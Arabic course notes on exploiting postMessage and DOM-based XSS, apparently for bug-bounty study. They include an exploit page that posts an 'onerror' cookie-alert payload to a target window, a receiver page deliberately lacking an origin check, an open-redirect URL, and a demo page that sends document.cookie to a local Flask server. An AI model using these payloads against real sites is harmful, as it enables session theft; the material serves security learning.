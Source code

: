 ## شرح الفديوهات من الكورس حسام شادي  ==> 
![006 PostMessage &Dom XSS 1.mp4](attachments/006 PostMessage &Dom XSS 1.mp4)


## اول سيناريوا انك تلاقي ال function  اسمها addEventListener عند التارجت :
#### الشرح :
![2025-05-15 20-56-35.mkv](attachments/2025-05-15 20-56-35.mkv)
![2025-05-15 21-30-10.mkv](attachments/2025-05-15 21-30-10.mkv)
#### ملف الصفحه بتاعي  اللي في الشرح :
```html
<!DOCTYPE html>
<html>
<head>
  <title>Payload</title>
</head>
<body onload="exploit()">

<script>
function exploit() {
    var win = window.open("رابط التارجت", "exploit");

    setTimeout(() => {
        const payload = `<img src="x" onerror="alert(document.cookie)">`;
        win.postMessage(payload, "*");
    }, 500); // زوّد التوقيت شوية علشان تضمن الصفحة حملت
}
</script>

<button onclick="exploit()">Exploit</button>
<iframe name="exploit" style="display:none;"></iframe>

</body>
</html>


```


##   ثاني  سيناريوا انك تلاقي ال function  اسمها postMessage عند التارجت :

#### الشرح :
![2025-05-15 22-28-08.mkv](attachments/2025-05-15 22-28-08.mkv)
#### ملف الصفحه بتاعي  اللي في الشرح :
```javascript
<!DOCTYPE html>
<html>
<head>
  <title>Index Page (Receiver)</title>
</head>
<body>
  <h2>أنا صفحة الإندكس اللي فيها iframe وبتستقبل الرسالة</h2>

  <iframe src="target.html" width="600" height="300"></iframe>

  <script>
    window.addEventListener("message", function(event) {
      // ممكن تضيف تحقق من origin لو حبيت
      alert("استلمت الرسالة: " + event.data);
    }, false);
  </script>
</body>
</html>

```



## استغلال الaddEventListener وال postMessage  بس بلغات تانيه زي ال nude js وال flask
![2025-05-16 00-49-25.mkv](attachments/2025-05-16 00-49-25.mkv)
#### ملف الصفحه بتاعي  اللي في الشرح    nude js :

```http
https://vulnerable-site.com/redirect?url=https://malicious-site.com
```

#### ملف الصفحه بتاعي  اللي في الشرح    flask :
```html
<!DOCTYPE html>

<html>

<head><title>هاكر</title></head>

<body>

<h1>سرقنا الداتا ✅</h1>

<script>

fetch("http://127.0.0.1:5000/send_message", {

  method: "POST",

  headers: { "Content-Type": "application/x-www-form-urlencoded" },

  body: "message=" + encodeURIComponent(document.cookie)

}).then(() => {

  document.body.innerHTML += "<p>✔️ تمت العملية بنجاح</p>";

});

</script>

</body>

</html>
```


خش لخص الكلام اللي في الموقع ده مهم  https://github.com/yavolo/eventlistener-xss-recon